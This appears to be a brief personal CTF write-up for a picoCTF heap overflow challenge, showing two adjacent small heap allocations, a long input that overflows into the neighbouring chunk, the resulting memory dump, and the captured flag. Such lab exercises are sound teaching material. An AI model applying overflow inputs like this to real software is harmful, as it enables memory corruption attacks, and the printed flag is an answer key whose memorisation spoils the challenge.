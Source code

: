```yaml
---
ai_date: '2025-04-27 05:29:26'
ai_summary: Heap overflow exploited to leak and control adjacent memory, demonstrating
  heap spray and buffer overflow technique.
ai_tags:
- heap
- overflow
- spray
created: 2024-06-15T20:50
updated: 2024-06-15T20:55
---
```


```cpp
#define INPUT_DATA_SIZE 5
#define SAFE_VAR_SIZE 5
input_data = malloc(INPUT_DATA_SIZE);
safe_var = malloc(SAFE_VAR_SIZE);
```

Naïve attempt to overflow will... oh it worked.

```
Enter your choice: 2
Data for buffer: 0123456789012345678901234567890123456789

+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5e89e4f682b0  ->   0123456789012345678901234567890123456789
+-------------+----------------+
[*]   0x5e89e4f682d0  ->   23456789
+-------------+----------------+
```

I guess even heaps are connected.

```flag
picoCTF{my_first_heap_overflow_4fa6dd49}
```